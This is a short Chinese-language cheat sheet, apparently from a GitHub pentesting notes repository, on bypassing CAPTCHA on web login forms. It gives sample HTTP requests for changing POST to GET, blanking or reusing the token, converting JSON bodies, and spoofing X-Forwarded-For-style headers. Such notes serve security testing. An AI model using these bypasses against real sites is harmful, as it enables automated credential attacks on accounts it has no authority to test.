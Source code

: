 ## 绕过验证码
burp插件：captcha-killer
1.尝试更改请求方法，例如POST到GET
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken = xxxxxxxxxxxxxx＆_Username = daffa＆_Password = test123
```

将方法更改为GET
```
GET /?_RequestVerificationToken = xxxxxxxxxxxxxx＆_Username = daffa＆_Password = test123 HTTP 1.1
Host：target.com
[...]
```

2.尝试删除验证码参数的值
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken =＆_ Username = daffa＆_Password = test123
```

3.尝试重用旧的验证码
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken = OLD_CAPTCHA_TOKEN＆_Username = daffa＆_Password = test123
```

4.将JSON数据转换为普通请求参数
```
POST / HTTP 1.1
Host：target.com
[...]

{“ _RequestVerificationToken”：“ xxxxxxxxxxxxxx”，“ _ Username”：“ daffa”，“ _ Password”：“ test123”}
```
转换为正常要求
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken = xxxxxxxxxxxxxx＆_Username = daffa＆_Password = test123
```

5.尝试使用自定义标头绕过验证码
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
